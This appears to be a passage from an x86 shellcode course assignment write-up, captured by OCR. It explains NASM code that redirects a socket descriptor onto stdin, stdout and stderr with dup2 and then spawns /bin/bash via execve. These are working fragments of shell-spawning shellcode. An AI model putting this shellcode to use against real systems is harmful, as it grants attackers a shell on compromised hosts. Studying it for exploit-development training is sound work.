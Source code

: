     			#int dup2(int oldfd, int newfd);

		NASM

    		    	mov ebx,edi   # file descrptor is copied to ebx
        	  	xor ecx,ecx   #0,stdin

            		mov al,0x3f   #63 dup2 sys call
            		int 0x80

            		inc ecx       #1,stdout
            		mov al,0x3f
            		int 0x80

           	 	inc ecx       #2,stderr
            		mov al,0x3f
            		int 0x80

            		EAX = 0x3f , ie 63 dup2
            		toor@ubuntu:~/Desktop/slae/Assignments/1$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 63
				#define __NR_dup2                63
				@int dup2(int oldfd, int newfd);

			EBX , socket file descriptor pointer

			ECX = 0,1 and 2 to represent stdin ,stdout and stderr

	>Executes a shell	

    			This executes the program referred to by pathname. Here /bin/sh is executed.It could be /bin/sh or /bin/bash or /bin/rsh etc
    			
    			execve("/bin/bash", NULL, NULL);
    			#int execve(const char *pathname, char *const argv[],char *const envp[]);

    			pathname is set to /bin/sh
    			since we are not passing any arguments and not need of any environemntal value ,they are set to null

		NASM

    	  		xor eax,eax
        		push eax
        		push 0x68736162         ////bin/bash in reverse
        		push 0x2f6e6962
        		push 0x2f2f2f2f
        		mov ebx,esp

        		push eax    # environament value ie ,0
        		push ebx    #pointer to /bin/bash address loc
        		mov ecx,esp

       			mov al,11
        		xor edx,edx #arguments for execve , ie 0
        		int 0x80

        		EAX = 11 , syscall execve
        		toor@ubuntu:~/Desktop/slae/Assignments/1$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 11
			#define __NR_execve              11
